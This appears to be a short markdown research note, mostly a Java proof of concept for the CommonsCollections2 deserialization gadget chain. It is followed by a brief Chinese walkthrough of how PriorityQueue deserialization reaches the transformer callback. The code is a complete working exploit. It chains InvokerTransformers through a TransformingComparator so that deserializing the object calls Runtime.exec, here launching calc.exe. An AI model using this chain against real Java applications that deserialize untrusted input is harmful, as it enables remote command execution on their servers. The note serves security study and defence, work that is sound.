



# CommonsCollections2

## Payload

```Java
package lldapp;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.Comparator;
import java.util.PriorityQueue;

import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InvokerTransformer;
import org.apache.commons.collections4.comparators.TransformingComparator;

public class CommonsCollections2 {
    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static void main(String[] args) throws Exception {
        Transformer[] fakeTransformers = new Transformer[] {new ConstantTransformer(1)};
        Transformer[] transformers = new Transformer[] {
            new ConstantTransformer(Runtime.class),
            new InvokerTransformer("getMethod", new Class[] { String.class,
                Class[].class }, new Object[] { "getRuntime",
                new Class[0] }),
            new InvokerTransformer("invoke", new Class[] { Object.class,
                Object[].class }, new Object[] { null, new Object[0] }),
            new InvokerTransformer("exec", new Class[] { String.class },
                new String[] { "calc.exe" }),
        };
        Transformer transformerChain = new ChainedTransformer(fakeTransformers);

        Comparator comparator = new TransformingComparator(transformerChain);

        PriorityQueue queue = new PriorityQueue(2, comparator);
        queue.add(1);
        queue.add(2);

        setFieldValue(transformerChain, "iTransformers", transformers);

        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(queue);
        oos.close();

        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        Object o = (Object)ois.readObject();
    }
}

```

## 分析

这里利用的是优先级队列`PriorityQueue`,`readObject`跟入

看看`heapify`

继续跟进`siftDown`，当`comparator`不为`null`时进入`siftDownUsingComparator`

由于这里设置的是`TransformingComparator`，便可以执行transform的回调利用

很简单很清晰